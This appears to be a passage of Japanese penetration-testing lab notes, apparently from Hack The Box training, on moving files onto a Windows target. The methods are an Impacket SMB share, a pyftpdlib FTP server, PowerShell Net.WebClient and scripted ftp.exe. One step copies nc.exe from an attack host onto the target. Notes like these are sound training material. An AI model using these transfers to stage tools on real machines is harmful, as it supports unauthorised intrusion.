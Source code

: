 - SMBサーバーから現在の作業ディレクトリにファイルをダウンロード
```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

- 新しいバージョンの Windows は、次のコマンドで確認できるように、認証されていないゲストのアクセスをブロックする
- Impacket SMBサーバーを使用してユーザー名とパスワードを設定し、SMBサーバーをWindowsターゲットマシンにマウントできる
```cmd
copy \\192.168.220.133\share\nc.exe
```

- SMBで新しいユーザーを作る
```shell-session
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

- SMBのマウント、ユーザー名・パスワード
```cmd-session
net use n: \\192.168.220.133\share /user:test test
```

#### FTPダウンロード
- ファイルを転送する別の方法は、ポートTCP/21とTCP/20を使用するFTP（ファイル転送プロトコル）を使用すること
- FTP クライアントまたは PowerShell Net.WebClient を使用して、FTP サーバーからファイルをダウンロードできる
- Python3 pyftpdlibモジュールを使用して、攻撃ホストにFTPサーバーを構成できます。
- 次のコマンドでインストールできる
```shell
sudo pip3 install pyftpdlib
```

- デフォルトでは、pyftpdlibはポート2121を使用するため、ポート番号21
- ユーザーとパスワードを設定しない場合、匿名認証はデフォルトで有効になる
```shell-session
sudo python3 -m pyftpdlib --port 21
```

- PowerShellを使用してFTPサーバーからファイルを転送する
```powershell-session
 (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

- リモートマシンでシェルを取得すると、インタラクティブシェルがない可能性がある
- その場合は、FTPコマンドファイルを作成してファイルをダウンロードすることができる
- まず、実行したいコマンドを含むファイルを作成し、FTPクライアントを使用してそのファイルを使用してそのファイルをダウンロードする必要がある
```cmd
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```
